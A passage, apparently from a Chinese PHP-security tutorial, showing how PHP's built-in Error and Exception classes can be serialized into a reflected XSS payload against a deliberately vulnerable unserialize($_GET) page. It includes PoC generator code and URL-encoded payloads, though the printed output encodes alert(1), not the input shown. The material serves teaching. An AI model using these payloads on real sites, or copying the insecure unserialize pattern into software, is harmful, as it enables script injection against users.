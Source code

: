 测试代码：

```php
    <?php
    $a = unserialize($_GET['whoami']);
    echo $a;
    ?>
```

（这里可以看到是一个反序列化函数，但是没有让我们进行反序列化的类啊，这就遇到了一个反序列化但没有POP链的情况，所以只能找到PHP内置类来进行反序列化）

给出POC：

```php
    <?php
    $a = new Error("<script>alert('xss')</script>");
    $b = serialize($a);
    echo urlencode($b);  
    ?>
    
    //输出: O%3A5%3A%22Error%22%3A7%3A%7Bs%3A10%3A%22%00%2A%00message%22%3Bs%3A25%3A%22%3Cscript%3Ealert%281%29%3C%2Fscript%3E%22%3Bs%3A13%3A%22%00Error%00string%22%3Bs%3A0%3A%22%22%3Bs%3A7%3A%22%00%2A%00code%22%3Bi%3A0%3Bs%3A7%3A%22%00%2A%00file%22%3Bs%3A18%3A%22%2Fusercode%2Ffile.php%22%3Bs%3A7%3A%22%00%2A%00line%22%3Bi%3A2%3Bs%3A12%3A%22%00Error%00trace%22%3Ba%3A0%3A%7B%7Ds%3A15%3A%22%00Error%00previous%22%3BN%3B%7D
```

成功弹窗。

##### Exception 内置类

* 适用于php5、7版本
* 开启报错的情况下

测试代码：

```php
    <?php
    $a = unserialize($_GET['whoami']);
    echo $a;
    ?>
```

给出POC：

```php  
    <?php
    $a = new Exception("<script>alert('xss')</script>");
    $b = serialize($a);
    echo urlencode($b);  
    ?>
    
    //输出: O%3A9%3A%22Exception%22%3A7%3A%7Bs%3A10%3A%22%00%2A%00message%22%3Bs%3A25%3A%22%3Cscript%3Ealert%281%29%3C%2Fscript%3E%22%3Bs%3A17%3A%22%00Exception%00string%22%3Bs%3A0%3A%22%22%3Bs%3A7%3A%22%00%2A%00code%22%3Bi%3A0%3Bs%3A7%3A%22%00%2A%00file%22%3Bs%3A18%3A%22%2Fusercode%2Ffile.php%22%3Bs%3A7%3A%22%00%2A%00line%22%3Bi%3A2%3Bs%3A16%3A%22%00Exception%00trace%22%3Ba%3A0%3A%7B%7Ds%3A19%3A%22%00Exception%00previous%22%3BN%3B%7D
```
